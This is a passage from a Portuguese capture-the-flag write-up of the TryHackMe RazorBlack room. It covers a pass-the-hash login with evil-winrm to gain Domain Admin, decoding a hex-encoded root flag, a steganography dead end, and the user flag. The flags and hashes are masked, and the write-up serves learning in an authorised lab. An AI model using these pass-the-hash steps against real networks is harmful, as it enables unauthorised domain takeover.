
39 Pass-the-Hash como Administrator — Domain Admin
evil-winrm -i 10.130.144.100 -u Administrator -H <hash-ntlm-administrator>
Com o hash em mãos, o evil-winrm confirma: whoami responde
raz0rblack\administrator. Domain Admin conseguido.
40 Root flag codificada em hex
echo "<payload-hex>" | xxd -r -p
A root flag não estava em claro — vinha codificada em hexadecimal, com uma pequena mensagem a brincar com quem chegasse até ali antes de a revelar.
Flag: THM{●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●} (oculta de propósito)
falhou A pista falsa: "Top Secret"
strings top_secret.png | grep THM binwalk top_secret.png zsteg top_secret.png exiftool top_secret.png
Uma pasta Top Secret no C:\Program Files escondia um
top_secret.png de 449 KB — parecia esteganografia óbvia. Testei
strings, binwalk, zsteg (que nem estava no PATH à primeira) e
exiftool: nada. Veredicto: era só um meme de um gorila a derreter, a dizer que
a forma de sair do vim é :W. Boa lição sobre não perseguir pistas falsas indefinidamente.

49 A flag de utilizador escondida à vista
type "C:\Users\twilliams\definitely_..._not_a_flag.exe"
A flag de utilizador estava noutro sítio: um ficheiro com um nome propositadamente exagerado
(definitely_definitely_..._not_a_flag.exe) na pasta do twilliams. Um simples type
revela o conteúdo.
Flag: THM{●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●} (oculta de propósito)
50 Room concluída — 100%
RazorBlack a 100%, Task 1 e Task 2 completas. Boot to root feito, do nmap inicial ao Domain Admin.
users.txt — o caminho absoluto resolveu.fcrackzip resolveu em segundos.SET METADATA. A solução foi reconstruir o script linha a linha com Add-Content, começando sempre por SET METADATA.strings, nem zsteg, nem exiftool deram nada. Nem toda a pista é esteganografia.Writeup de uma sala do TryHackMe, resolvida em ambiente de laboratório autorizado. Flags e alguns valores sensíveis (hashes completos, IPs, passwords) foram mascarados ou omitidos de propósito, conforme as regras da plataforma. Técnicas descritas apenas para fins educativos — usar só em sistemas próprios ou com autorização explícita.